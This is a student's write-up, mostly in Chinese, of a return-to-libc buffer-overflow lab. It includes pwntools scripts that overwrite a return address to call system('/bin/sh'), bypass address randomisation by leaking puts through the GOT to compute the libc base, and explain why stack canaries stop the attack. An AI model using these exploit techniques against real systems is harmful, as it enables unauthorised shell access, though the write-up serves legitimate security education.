








# Return-to-libc Attack Lab

> 1120162015 李博

## Task1: Exploiting the Vulnerability 

脚本如下

```python
from pwn import *

offset = 0x14+4
sys_addr = 0xb7e42da0
exit_addr = 0xb7e369d0
#print hex(sys_addr),hex(exit_addr)
binsh_addr = 0xbffffe16

payload = 'a'*offset + p32(sys_addr) + p32(exit_addr) + p32(binsh_addr)

with open('badfile','w') as f:
	f.write(payload
```

buffer距ret_addr的偏移通过IDA看栈的结构，如下图。



system和exit的地址通过gdb调试查看，如下图。



`/bin/sh`是通过设置环境变量`MYSHELL`，之后查看其地址即可。

这里有一个注意的点是，gdb调试出来的环境变量地址与程序真实运行输出的环境变量地址有一定的偏差。



执行脚本，获取shell。



之后将程序名`retlibenv`改为`retlib`，再次运行，发现无法getshell。


原因在于，程序运行时程序名早于环境变量加载，故在内存中环境变量的地址会随程序名长度的不同而产生偏移。

解决方法就是将输出环境变量地址的程序与有漏洞的程序设置成名字长度相等。

## Task2: Address Randomization

开启地址随机化后，结果如下图。



发生段错误的原因在于，开启地址随机化后，system和exit的地址发生改变，并且环境变量中`/bin/sh`的地址也改变，导致原本的地址失效，执行`system(‘/bin/sh’)`失败。

接下来记录我绕过地址随机化的方法。

`ldd`命令可以查看可执行文件的链接库，如下图。



首先将返回地址覆盖为`puts`函数，通过`puts`函数泄漏`puts`函数的真实地址，并将`puts`的返回地址设置为`_start`函数，达到循环利用栈溢出的目的。

接着通过泄露出来的真实地址与libc中函数的偏移作差，获得libc的基址，继而计算出`system`函数，`exit`函数和字符串`/bin/sh`的真实地址。

最后再次利用栈溢出getshell。

脚本如下

```python
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

elf = ELF('./retlibenv')
libc = ELF('./libc.so')

offset = 0x14+4

# Step1: lead libc_base address
start_addr = elf.symbols['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
puts_libc = libc.symbols['puts']

payload = 'a'*offset + p32(puts_plt) + p32(start_addr) + p32(puts_got)

with open('badfile','w') as f:
	f.write(payload)

io = process('./retlibenv')
io.sendline('')
puts_real_addr = u32(io.recvline()[:4])
print hex(puts_real_addr)

# Step2: get shell
libc_base = puts_real_addr-puts_libc
system_addr = libc_base + libc.symbols['system']
exit_addr = libc_base + libc.symbols['exit']
binsh_addr = libc_base + next(libc.search('/bin/sh'))
print "[*] system_addr = {}".format(hex(system_addr))
print "[*] exit_addr = {}".format(hex(exit_addr))

payload = 'a'*offset + p32(system_addr) + p32(exit_addr) + p32(binsh_addr)
print payload
with open('badfile','w') as f:
	f.write(payload)
print "[*] write !"
io.sendline('')
io.interactive()
```

结果如下



这里由于将返回地址覆盖为`_start`，导致程序不断读取badfile，很难抓到时机写入badfile，所以我在源码的读取文件之前加了个getchar达到中断的目的。

## Task3: Stack Guard Protection

开启栈保护后，结果如下图。



执行失败的原因在于，canary机制在栈上past_ebp与ret_addr之间写入了一段数据，若进行栈溢出则会将其覆盖，系统检测到数据被更改则退出程序。